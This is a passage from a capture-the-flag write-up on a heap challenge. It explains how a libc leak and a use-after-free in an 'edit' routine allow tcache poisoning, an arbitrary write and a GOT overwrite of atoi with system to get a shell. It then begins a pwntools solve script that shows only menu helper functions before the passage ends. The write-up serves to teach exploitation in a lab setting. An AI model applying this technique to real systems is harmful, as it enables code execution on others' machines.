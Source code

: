 <figure><img src="../../../.gitbook/assets/image (2) (1) (2).png" alt=""><figcaption><p>leaked libc address</p></figcaption></figure>

Now that we have a libc leak, we can calculate the libc base and get the address of the `system` function in libc.

### Overwriting GOT

Remember that we also have a Use-After-Free vuln in `edit`. This means that we can **modify** the **fwd** pointer of **tcache** to wherever we want (as long as it is writable), **create** a new chunk with malloc(), then malloc will allocate the chunk at that address we specified.\
Now we have an arbitrary write.

Looking at the source code under the `main` function, our user input gets passed as an argument into the `atoi` function.\
We can overwrite the GOT of `atoi` with our libc `system` function, then pass in "/bin/sh" as our menu option to get RCE.

{% tabs %}
{% tab title="solve.py" %}
```python
#!/usr/bin/env python3

from pwn import *

def option(m):
	global p
	p.sendlineafter(b'> ',m)

def create(m):
	global p
	option(b'1')
	p.recvline()
	p.clean()
	p.sendline(m)
	p.recvuntil(b'Your firewall rule ID is: ')
	return p.recvline().strip()

def view(i):
	global p
	option(b'2')
	p.recvline()
	p.clean()
	p.sendline(i)
	p.recvuntil(b'Your rule: ')
	return p.recvline()[:-1]

def edit(i,m):
	global p
	option(b'3')
	p.recvuntil(b'you want to edit:\n')
	p.clean()
	p.sendline(i)
	p.recvuntil(b'new firewall rule here:\n')
	p.clean()
	p.sendline(m)

def delete(i):
	global p
	option(b'4')
	p.recvuntil(b'you want to delete:\n')
	p.clean()
	p.sendline(i)
	return p.recvline()


```